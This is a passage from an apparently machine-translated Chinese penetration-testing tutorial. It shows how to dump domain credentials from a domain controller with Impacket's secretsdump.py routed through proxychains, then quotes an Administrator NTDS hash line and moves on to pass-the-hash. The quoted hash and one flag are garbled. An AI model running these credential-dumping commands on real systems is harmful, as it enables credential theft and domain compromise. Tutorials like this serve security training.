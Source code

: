 第一步是获取目标的本地 NTLM 散列。为此，我们使用 Impacket 的 [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) ，它使用各种技术来转储本地和域散列。我们必须确保使用 proxychains 通过我们的 SOCKS 代理路由请求。

`proxychains4 -q secretsdump.py test/Testadmin:test@192.168.1.161`

![](img/2dc95f728a1c671a952c1f484fc014ab.png)

Secretsdump.py 来提取本地哈希

> 注意:在我的例子中，我必须添加-use-vss 标志来提取散列。此外，由于凭证是通过 SOCKS 服务器传递的，所以您输入的密码并不重要。

大多数情况下，您需要本地 SAM 散列，但是由于我们的目标是没有本地帐户的域控制器，所以我们希望通过 NTDS 转储域凭证:“Administrator:500:aad3b 435 b 51404 eeaad3b 435 b 51404 ee:2b 576 acbe 6 BCF da 7294 D6 BD 18041 b8 Fe::::”。

## 传递散列值
